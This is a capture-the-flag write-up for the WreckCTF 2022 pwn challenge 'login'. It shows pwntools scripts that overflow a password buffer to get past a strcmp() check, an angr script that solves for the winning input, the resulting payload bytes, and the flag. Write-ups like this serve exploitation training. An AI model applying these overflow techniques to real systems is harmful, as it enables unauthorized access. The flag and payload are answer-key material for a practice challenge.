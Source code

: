 # WRECKCTF 2022 - login

* **Category:** pwn
* **Points:** 414
* **Author:** josephg

## Challenge

> you'll never get my password!

## Solution
![image](https://user-images.githubusercontent.com/78451563/193476675-22bcf3d9-262d-4802-b0a1-5c0a1c37011f.png)

There's an overflow on line 18 which we could leverage to bypass the check.
```python
from pwn import *
elf = context.binary = ELF('./challenge')
p = remote("challs.wreckctf.com",31009)
log.info(p.clean())
payload = flat(
	# input_password
	b"A"*1, # Our new set password 
	b"\x00"*1, # strcmp() null byte terminal
	b"\x90"*14, # padding
	# password overwrite
	b"A"*1,
	b"\x00"*1,
	b"\x90"*14
)
p.sendline(payload)
p.interactive()
```
![image](https://user-images.githubusercontent.com/78451563/193477300-31035084-120d-4948-adb3-897b981a11db.png)

The binary uses strcmp() against our input and the password so if the first character of two strings is equal, the next character of two strings are compared. This continues until the corresponding characters of two strings are different or a null character '\x00' is reached.
```python
#!/usr/bin/env python3
import angr
import claripy
import time
import logging
t=time.time()
logging.getLogger('angr').setLevel(logging.INFO)
p = angr.Project('./challenge', auto_load_libs=False)
state = p.factory.entry_state(add_options=angr.options.unicorn)
sm = p.factory.simulation_manager(state)
sm.explore(find=0x40147a,avoid=0x401481) # find=print_flag(),avoid=puts("Sorry, incorrect password\n")
print('Input: \n{}'.format(sm.found[0].posix.dumps(0)))
print('Std output: \n{}'.format(sm.found[0].posix.dumps(1)))
print(time.time() - t, "seconds")
```
We can also use ANGR to brainlessly solve this PWN challenge.
```
b'\x00\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
After running we get this as our input for the found state. Now to put it into a script and send to remote.
```python
from pwn import *
elf = context.binary = ELF('./challenge')
p = remote("challs.wreckctf.com",31009)
log.info(p.clean())
print_flag = b'\x00\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
p.sendline(print_flag)
p.interactive()
```
![image](https://user-images.githubusercontent.com/78451563/193476208-4a63a834-aab1-4cff-a161-647e609569cc.png)

```
Flag: flag{i_wish_could_gets_more_runes}
```
